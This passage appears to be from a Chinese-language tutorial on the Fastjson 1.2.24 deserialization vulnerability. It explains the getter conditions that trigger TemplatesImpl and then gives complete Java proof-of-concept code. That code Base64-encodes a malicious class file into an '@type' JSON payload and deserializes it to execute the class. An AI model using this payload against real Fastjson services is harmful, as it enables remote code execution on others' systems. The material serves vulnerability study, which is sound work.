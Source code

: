 满足条件的getter：

- 非静态方法
- 无参数
- **返回值类型继承自Collection或Map或AtomicBoolean或AtomicInteger或AtomicLong**



再去找另一个调用了`newInstance`方法的函数，找到`getOutputProperties`，这个是满足条件的，因为`Properties`实现了`Map`接口

![image-20251004185440506](./Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96fastjson%E7%AF%8702-Fastjson%201.2.24%20/image-20251004185440506.png)

并且还需要满足`TemplatesImpl`链中的那些条件,`_name!=null`,`_bytecodes!=null`,`_tfactory为TransformFactoryImpl对象`

## 完整代码

`readClass` 作用：把指定文件（通常是 `.class`）读成字节并返回其 Base64 表示，方便嵌入 JSON。

```java
package org.example;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.parser.ParserConfig;
import org.apache.commons.io.IOUtils;
import org.apache.commons.codec.binary.Base64;
import java.io.*;


public class Main {
    public static String readClass(String cls){
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        try {
            IOUtils.copy(new FileInputStream(new File(cls)), bos);
        }catch (IOException o){
            o.printStackTrace();
        }
        return Base64.encodeBase64String(bos.toByteArray());
    }
    public static void main(String[] args) {
        ParserConfig config = new ParserConfig();
        final String fileSeparator = System.getProperty("file.separator");
        //evilClassPath是字节码文件
        final String evilClassPath = "E:\\迅雷下载\\org\\example\\Calc.class";
        String evilCode = readClass(evilClassPath);
        final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
        String text1 = "{\n" +
                "  \"@type\": \""+NASTY_CLASS+"\",\n" +
                "  \"_bytecodes\": [\n" +
                "    \""+evilCode+"\"\n" +
                "  ], \n" +
                "  \"_name\": \"a.b\",\n" +
                "  \"_tfactory\": {},\n" +
                "  \"_outputProperties\": {}\n" +
                "}";
        System.out.println(text1);
        
        //反序列化
        Object obj = JSON.parseObject(text1, Object.class, Feature.SupportNonPublicField);
    }

}
```
